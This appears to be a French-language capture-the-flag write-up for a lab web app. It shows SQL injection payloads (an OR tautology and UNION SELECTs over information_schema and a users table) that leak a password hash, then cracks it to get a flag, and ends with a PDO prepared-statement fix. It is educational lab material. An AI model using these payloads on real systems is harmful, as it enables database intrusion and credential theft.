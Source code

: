 # SQL Injection members

## Trouver la faille

Sur ce lien : http://192.168.0.32/?page=member
On peut afficher tous les utilisateurs en écrivant dans la barre recherche ou dans le lien directement
```bash
0 or 1
```
qui est égale a True

On utilisant UNION on peut selectionner tout ce qu'on a besoin d'afficher comme db, table, colonne depuis la base information_schema qui contient tout les informations a propos des bdd

```sql
0 or 1 UNION select table_name, column_name FROM information_schema.columns
```
On trouve une table user qui contient pleins de colonne et parmis ces colonne on s'intéresse au commentaire et countersign

```sql
0 or 1 UNION SELECT Commentaire, countersign FROM users

result:
ID: 0 or 1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

On va décrypter ce code 5ff9d0165b4f92b14994e5c685cdce28 avec md5 on trouve la clé "FortyTwo" on enléve les majuscule et on crypte avec Sh256


## Comment utiliser cette faille
On peut récuperer tout les donnnées de la bdd

## Solution
Il faut utiliser des requetes SQL prepared telsque PDO en ajoutant cette ligne 
```php
$connexion = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'utilisateur', 'motDePasse');
$connexion->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
```
Prepare: An SQL statement template is created and sent to the database

